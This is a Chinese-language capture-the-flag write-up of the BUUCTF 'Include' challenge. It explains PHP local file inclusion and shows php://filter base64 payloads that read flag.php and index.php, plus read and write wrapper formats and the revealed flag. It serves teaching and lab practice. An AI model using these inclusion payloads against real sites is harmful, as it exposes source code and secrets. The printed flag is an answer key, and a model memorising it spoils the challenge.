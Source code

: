 ```yaml
---
title: 01新生赛Include1
description: 
published: 1
date: 2023-06-09T10:17:23.519Z
tags: 
editor: markdown
dateCreated: 2023-05-22T10:38:53.512Z
---
```


<center>新生赛Include1</center>

[toc]







## 新生赛Include1

> 赛题 [buuctf](https://buuoj.cn/challenges#[ACTF2020%20%E6%96%B0%E7%94%9F%E8%B5%9B]Include)



### 1.讲解

> 主要看url可以看出文件包含相关
>
> 因为文件包含有一个特性，就是对于被包含的文件，`代码会直接执行`，不会显示，而非代码会直接显示出来，所以，对于这样的情况，我们可以把文件编码为不可以被执行的内容，就可以直接显示出来了，



### 2. 伪协议

> [php伪协议](https://blog.csdn.net/qq_51295677/article/details/123462929) 遇到文件包含需要读取源码可以使用php://filter协议，格式如下 

```shell
读：php://filter/resource=文件名
    # base64 加密读
php://filter/read=convert.base64-encode/resource=文件名
 
写：php://filter/resource=文件名&txt=文件内容
 
php://filter/write=convert.base64-encode/resource=文件名&txt=文件内容
```



### 3.使用

> base64[base64](https://blog.csdn.net/wo541075754/article/details/81734770)在线编码  [在线base64](https://base64.us/)

```shell
# flag的源码
?file=php://filter/read=convert.base64-encode/resource=flag.php
?file=php://filter/read=convert.base64-encode/resource=index.php
```

> 通过base64解码出来就可以看到我们网址的源码了

```js
<?php
echo "Can you find out the flag?";
//flag{95d98028-64e5-4be3-8255-80285f0ba5dc}
```





### top 看到的网址 后面会整理到环境搭建篇

```shell
ctfer : https://book.nu1l.com/
```



